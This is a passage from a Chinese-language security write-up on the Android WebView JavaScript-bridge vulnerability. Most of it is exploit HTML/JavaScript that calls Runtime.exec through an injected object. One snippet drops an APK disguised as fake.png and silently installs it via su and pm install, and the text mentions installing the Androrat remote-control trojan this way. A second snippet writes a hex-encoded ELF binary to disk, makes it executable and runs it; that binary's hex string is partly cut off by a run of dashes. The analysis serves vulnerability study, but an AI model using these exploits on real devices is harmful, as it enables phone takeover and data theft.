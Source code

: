 ```
         execute(\["/system/bin/sh","-c","echo '"+apk+"' > /data/data/com.example.hellojs/fake.png"\]);
         execute(\["chmod","755","/data/data/com.example.hellojs/fake.png"\]);
         execute(\["su","-c","pm install -r /data/data/com.example.hellojs/fake.png"\]);
       </script>
   </body>
</html>
```

      由下图可得知我们已经拼接成了一个 APK 程序，并伪装成一张 png 图片：  
 ![](https://mmbiz.qpic.cn/mmbiz_jpg/p5qELRDe5icnRBnle9hbcfwiaUrkxtHoQbHYfcViaEkMzWicEdzHAjjRCcyLuIqNlN77FYLtpjtalbv0a1BW8nJEhw/640?wx_fmt=jpeg)  
      由下图可知，我们已经成功安装 fake.png APK 程序：  
 ![](https://mmbiz.qpic.cn/mmbiz_jpg/p5qELRDe5icnRBnle9hbcfwiaUrkxtHoQbCwj4qzZ5uERCzqSVt75Nv0YGrVtfXIm3gz5pGhr8Ut5Zzu5wtYHy4A/640?wx_fmt=jpeg)  
      例如网上流行的 Androrat 远程控制程序，攻击者利用上述漏洞即可简单的安装此远程控制木马应用 APK 即可达到远程控制用户手机的目的。     
      利用漏洞拼接可执行 ELF 程序，并执行该 ELF 程序达到为所欲为的目的，博文 Abusing WebView JavaScript Bridges【3】还实现了在非 root 情况下利用 ELF 可执行程序偷取 sdcard 的文件的 POC，由此可见，该漏洞的危害性极大：  
EXP 的 JavaScript 代码：  

```
<html>
   <body>
      <script>
         function execute(cmdArgs)
         {
             return injectedObj.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
         }
            var bin = "\\\\x7F\\\\x45\\\\x4C\\\\x46\\\\x01\\\\x01\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x02\\\\x00\\\\x28\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\xE4\\\\x83\\\\x00\\\\x00\\\\x34\\\\x00\\\\x00\\\\x00\\\\x58\\\\x21\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x05\\\\x34\\\\x00\\\\x20\\\\x00\\\\x08\\\\x00\\\\x28\\\\x00\\\\x18\\\\x00\\\\x17\\\\x00\\\\x06\\\\x00\\\\x00\\\\x00\\\\x34\\\\x00\\\\x00\\\\x00\\\\x34\\\\x80\\\\x00\\\\x00\\\\x34\\\\x80\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x04\\\\x00\\\\x00\\\\x00\\\\x04\\\\x00\\\\x00\\\\x00\\\\x03\\\\x00\\\\x00\\\\x00\\\\x34\\\\x01\\\\x00\\\\x00\\\\x34\\\\x81\\\\x00\\\\x00\\\\x34\\\\x81\\\\x00\\\\x00\\\\x13--------------------------------------------------------------------------------------------------------------------------------\\\\x00\\\\x00\\\\x00\\\\x00\\\\xD4\\\\x00\\\\x00\\\\x00\\\\x03\\\\x00\\\\x00\\\\x70\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x44\\\\x20\\\\x00\\\\x00\\\\x2D\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x03\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x71\\\\x20\\\\x00\\\\x00\\\\xE4\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00";
            execute(\["/system/bin/sh","-c","echo '" + bin + "' > /data/data/com.example.hellojs/testBin"\]);
         execute(\["chmod","755","/data/data/com.example.hellojs/testBin"\]);
            var res = execute(\["/data/data/com.example.hellojs/testBin"\]);
           document.write(getContents(res.getInputStream()));
       </script>
   </body>
</html>
```

